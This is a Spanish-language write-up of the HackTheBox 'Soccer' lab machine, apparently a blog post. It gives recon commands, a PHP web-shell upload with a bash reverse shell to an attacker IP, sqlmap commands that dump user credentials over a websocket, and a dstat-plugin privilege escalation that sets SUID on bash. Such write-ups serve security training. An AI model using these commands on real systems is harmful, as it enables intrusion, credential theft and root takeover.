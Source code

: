 ```yaml
---
layout: single
title: Soccer - HackTheBox
excerpt: " This CTF focuses on success through enumeration.                                                       "
date: 2023-06-20
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-soccer/soccer.png
  teaser_home_page: true
  icon: /blog/assets/images/htb.webp
categories:
  - hackthebox
tags:  
  - mysql
  - ssh
  - suid
---
```


This CTF focuses on success through enumeration.

<p style="text-align: center;">
<img src="/blog/assets/images/htb-writeup-soccer/soccer.png">
</p>




# Summary
- IP: 10.10.11.194
- Ports: 22,80,9091
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	- 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
	- 80 -> nginx 1.18.0
	- 9091 -> xmltec-xmlmail?

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80,9091 -sCV 10.10.116.216 -oN targeted
``` 

- Reconocimiento de directorios con gobuster:

```bash
$gobuster dir -u soccer.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php
```

- Encontramos el directorio "/tiny", accedemos y nos encontramos con un login de "Tiny File Manager", buscamos en google las credenciales por defecto de este recurso y probamos.

- Accedemos como admin, analizamos la web, nos permite subida de archivos en el directorio "/uploads", subimos un PHP con una reverse shell y accedemos:

```
http://soccer.htb/tiny/uploads/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.85/443%200%3E%261%22
```

- Como el usuario www-data buscamos recursos para escalar privilegios:
- Recordamos que el puerto 9091 estaba aabierto, sospechamos de un websocket, lo comprobamos:

```bash
websocat ws://soccer.htb:9091 -v
```

- Confirmado ya que se trata de un Web Socket, buscamos vulnerabilidades para la misma, encontramos este artículo [Automating Blind SQL injection over WebSocket | Rayhan0x01’s Blog](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

- Ejecutamos la script de python para redireccionar los datos de la ws y poder acceder a estos como localhost para realizar un ataque de SQL Injection:
- Cambiamos los campos "ws-server" por el puerto 9091 y "data" por "id"

```bash
$python3 exploit.py
```

- Ahora atacamos con sqlmap. primero en búsqueda de los nombres de las bases de datos:

```bash
sqlmap -u "http://127.0.0.1:8081/?id=1" --dbs
```

- Ahora buscamos las tablas que hay en la BD "soccer_db":

```bash
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db --tables
```

- Enumeramos las columnas de esta tabla:

```bash
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts --columns
```

- Encontramos las columnas username y password, las dumpeamos:

```bash
sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts -C username,password -dump
```

- Obtenemos la contraseña del usuario "player" accedemos por SSH:

```bash
$ssh player@10.10.103.124
```

- Obtenemos la primera flag.

# Escalando privilegios:


- Buscamos permisos SUID:

```bash
$ find / -perm -4000 2>/dev/null
```

- Nos encontramos con "doas", buscamos todos los archivos doas que hayan:

```bash
$ find -name doas 2>/dev/null l grep doas
```

- Nos encontramos un "doas.conf", lo leemos, nos dice que un binario dstat se puede ejecutar como root sin contraseña:

```bash
/usr/bin/dstat
$ doas -u root /usr/bin/dstat
```

- Tenemos capacidad de escritura en la ruta share/dstat que es en donde se guardan los plugins:
```bash
$ ls -la /usr/local/share/dstat
```

- Nos creamos un plugin .py que otorgue permisos SUID a la bash y lo ejecutamos como root:
```bash
player@soccer:/usr/local/share/dstat$ echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --privesc &>/dev/null
bash -P
```

- Ya somos ROOT y obtenemos la flag.

